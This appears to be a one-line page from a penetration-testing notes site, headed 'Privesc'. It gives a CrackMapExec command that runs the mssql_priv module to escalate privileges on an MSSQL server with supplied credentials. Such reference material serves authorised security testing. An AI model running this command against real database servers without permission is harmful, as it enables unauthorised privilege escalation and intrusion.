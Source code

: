 # Privesc

```
cme mssql <ip> -u user -p password -M mssql_priv
```

<figure><img src="../../../../.gitbook/assets/image (36).png" alt=""><figcaption></figcaption></figure>
